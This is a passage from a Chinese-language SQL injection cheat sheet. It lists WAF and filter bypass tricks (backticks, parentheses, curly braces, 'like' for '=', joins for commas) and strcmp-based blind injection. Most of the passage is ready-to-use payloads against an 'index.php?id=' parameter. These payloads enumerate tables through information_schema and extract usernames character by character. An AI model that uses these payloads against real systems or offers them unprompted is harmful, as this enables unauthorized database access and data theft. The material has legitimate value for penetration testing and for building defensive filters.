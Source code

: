 ###### ⑨特殊符号绕过

* 使用**反引号 `** 可以绕过**空格和正则**，特殊情况下还可以将其作为注释符用

* 使用 **-+.** ，起到**连接字符串**的作用

  ```
  index.php?id=-1.0 union select"1",2,3
  index.php?id=-1E0 union select~1,2,3
  index.php?id=-1 union select 1,2,version()"from users"
  index.php?id=-1 union select`id`,1,2 from users"
  index.php?id=-1 union select 1,2,version()`from users`
  ```

* 普通括号

  ```
  index.php?id=(-1)union(select(1),(2),(3)from(users))
  index.php?id=(1)or(0x50=0x50)
  index.php?id=(-1)union((((((select(1),hex(2),hex(3)from(users)))))))
  ```

* 花括号

  ```
  index.php?id=-1 union select 1,{x 2},3
  ```

* 等号

  * 使用``like``来替代

  ```
  1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema=database())#
  => 1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema like database())#
  ```

* and和or

  ```
  使用关键字双写、关键字替换、内联注释、多行注释来替代
  ```

* 逗号

  ```
  	1' union select 1,2,3 --+
  => 	1' union select * from (select 1)a join (select 2)b join (select 3)c --+
  ```


###### ⑩过滤掉and和or的盲注

```
index.php?id=strcmp(left((select username from users limit 0,1),1),0x42)#
index.php?id=strcmp(left((select+username+from+users+limit+0,1),1)0x42)#

strcmp()函数，两值相等返回0，小于返回-1，大于返回1

//sql语句为：
select * from users where id=strcmp(left((select username from users limit 0,1),1),0x42);
```
